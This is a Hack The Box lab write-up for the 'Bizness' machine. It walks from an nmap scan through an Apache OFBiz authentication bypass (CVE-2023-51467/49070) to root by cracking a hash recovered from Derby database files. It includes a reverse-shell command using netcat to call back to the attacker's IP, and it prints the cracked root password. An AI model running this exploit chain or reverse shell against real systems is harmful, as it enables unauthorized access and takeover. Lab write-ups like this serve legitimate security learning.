





# Bizness



Bizness is an easy Linux Hack The Box machine that starts with an Apache OFBiz authentication bypass and ends with root access after recovering and cracking a password from a Derby database.

## Reconnaissance

I began with a full port scan.

```bash
sudo nmap -sS -A -p- -o nmap 10.10.11.252
```

The scan showed SSH and two web ports:

```text
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp    open  http       nginx 1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
39249/tcp open  tcpwrapped
```

Port 80 redirected to `https://bizness.htb`, so I added that hostname to `/etc/hosts` and started enumerating the web application.



## Web Enumeration

The site looked like a static homepage at first glance, so I ran directory brute force and discovered `/control/login`.



That page revealed an Apache OFBiz ERP application running version **18.12**. That version is vulnerable to the authentication bypass issues tracked as `CVE-2023-51467` and `CVE-2023-49070` https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.



## Initial Access

A public exploit was already available, so I cloned it and used it to launch a reverse shell.

```bash
git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git
python exploit.py --url https://bizness.htb --cmd "nc -c bash 10.10.14.225 443"
```

That gave me access as `ofbiz`.

## Privilege Escalation

To escalate privileges, I explored the OFBiz file structure and noticed that it used a Derby database. Derby stores its data in chunked files under:

```text
/opt/ofbiz/runtime/data/derby/ofbiz/seg0
```

I copied and recombined the database chunks locally for analysis.

```bash
cat *.dat >> combined_file
```

Searching the extracted data for password-related strings revealed a useful hash entry:

```text
Password="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled
```

That format did not match a standard hash directly, so I checked the OFBiz source code to understand how it was generated. The password comparison process used a salted digest that was then encoded with URL-safe base64.

The recovered value could be transformed back into a crackable form as:

```text
b8fd3f41a541a435857a8f3e751cc3a91c174362:d
```

I ran `hashcat` against the hash and recovered the password:



```text
monkeybizness
```

That turned out to be the root password. Using `su root` gave me full access.

## Attack Path

- Enumerate SSH and web services.
- Discover Apache OFBiz on `/control/login`.
- Identify the target as vulnerable to `CVE-2023-51467` and `CVE-2023-49070`.
- Exploit the authentication bypass to gain a shell as `ofbiz`.
- Locate the Derby database files.
- Reconstruct and analyze the database contents.
- Extract the salted password hash.
- Convert the OFBiz hash format into a crackable form.
- Crack the hash with `hashcat`.
- Reuse the recovered password to `su root`.
